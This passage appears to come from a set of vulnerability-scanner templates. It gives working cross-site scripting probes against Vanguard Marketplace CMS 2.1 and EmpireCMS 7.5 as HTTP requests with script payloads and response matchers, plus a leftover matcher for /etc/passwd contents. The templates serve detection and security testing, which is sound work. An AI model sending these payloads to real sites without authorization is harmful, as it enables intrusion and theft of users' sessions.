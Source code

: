
**Type - regex**
- regex
    1. root:[x*]:0:0

**Type - status**
- status
    1. 200

---
# Vanguard Marketplace CMS 2.1 - Cross-Site Scripting
## Description
- Vanguard Marketplace CMS 2.1 contains a cross-site scripting vulnerability in the message and product title tags and in the product search box.
- severity - high
- tags - vanguard,xss,packetstorm
## Requests
### Step - 1
```
POST /search HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

phps_query=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

```
### Matchers

**Type - word**
- words
    1. \</script>\<script>alert(document.domain)\</script>
- part - body

**Type - word**
- part - header
- words
    1. text/html

**Type - status**
- status
    1. 200

---
# EmpireCMS 7.5 - Cross-Site Scripting
## Description
- EmpireCMS 7.5 contains a cross-site scripting vulnerability. An attacker can execute arbitrary script and thus steal cookie-based authentication credentials and launch other attacks.
- severity - high
- tags - empirecms,xss
## Requests
- Method - GET
### URL
- {{BaseURL}}/e/ViewImg/index.html?url=javascript:alert(document.domain)
### Matchers
